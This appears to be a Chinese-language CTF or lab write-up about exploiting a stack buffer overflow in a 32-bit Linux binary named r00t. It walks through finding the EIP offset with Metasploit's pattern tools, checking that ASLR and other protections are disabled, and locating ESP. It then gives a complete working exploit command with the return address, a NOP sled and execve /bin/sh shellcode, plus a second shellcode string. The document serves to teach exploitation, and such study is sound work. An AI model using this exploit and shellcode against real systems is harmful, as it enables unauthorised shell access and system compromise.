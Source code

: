 其中strcpy以及printf可能存在溢出和格式化字符串漏洞


1）开始找偏移量
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

获得：0x6a413969

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6a413969
[*] Exact match at offset 268

获得偏移量268

2）ASLR查询
<_here/choose_wisely/door2$ cat /proc/sys/kernel/randomize_va_space          
0

发现没有开启！

3）checksec保护机制
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial


--------------
方法1：偏移量268

1）找esp值：验证EIP
./r00t $(python -c 'print "A" * 300')
r $(python -c 'print "A"*268 + "B"*4')
r $(python -c 'print "A"*268 + "B"*4 + "C"*20')


2）获取ESP（下一跳值）
0xbffffb80
\x80\xfb\xff\xbf

3）shellcode  841 827 ----只要搜linux/x86 /bin/bash或者/bin/sh

现在需要获取一些shellcode，www.shell-storm.org/shellcode这是非常好的一个写shellcode的学习网站，利用存储已编写的Shellcode。因为它运行在Intel，并且操作系统是32位Linux，因此我从此处获取Shellcode连接：
http://shell-storm.org/shellcode/
http://shell-storm.org/shellcode/files/shellcode-827.php

"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

4）exp

./r00t $(python -c 'print "A"*偏移量 + "ESP" + "\x90"*20 + "shellcode"')

"\x90"*20 : nop sel
--------
./r00t $(python -c 'print "A"*268 + "\x80\xfb\xff\xbf" + "\x90"*20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
--------
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80";
